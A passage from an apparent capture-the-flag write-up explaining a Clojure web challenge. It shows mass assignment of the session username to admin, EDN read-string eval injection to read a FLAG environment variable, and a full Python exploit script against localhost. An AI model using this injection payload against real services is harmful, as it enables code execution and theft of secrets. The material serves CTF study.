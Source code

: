 The `merge` function combines two or more maps, giving priority to the latter ones. In this case, every key-value pair in the query parameters is merged into the existing `session` and stored using the `assoc` function.

Henc, you can exploit **mass-assignment** to set your session's username to `admin` using the query parameter.

#### Step 2: Getting the flag

When you send a POST request to the `/gist` endpoint, a new gist will be created using the following code:

```clojure
(insert-gist (session "username") (read-string gist))
```

The `read-string` function parses strings in EDN format. Although it's normally a data-deserialization function, it can be exploited to run arbitrary commands with the following syntax:

```clojure
(read-string "#=(eval (+ 1 2))")
```

To read an environment variable, you can use the dot function (`.`). This allow us to call any classes and functions from Java. For example,

```clojure
(. System getenv "FLAG")
```

is equivalent to:

```java
java.lang.System.getenv("FLAG")
```

### Full exploit

```python
import requests

URL = "http://localhost:3000/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
r = s.get(URL, params={
  "username": "admin"
})
r = s.post(URL + "gists", data={
  "gist": '#=(eval (. System getenv "FLAG"))'
})
print(r.text)
```


## Ada Indonesia Coy 

(This is an upsolve. Please read [writeup nolang's](https://nolangilardi.github.io/blog/2024-0xl4ugh-ctf--ada-indonesia-coy/) for the more detailed approach. My exploit is created based on this writeup)
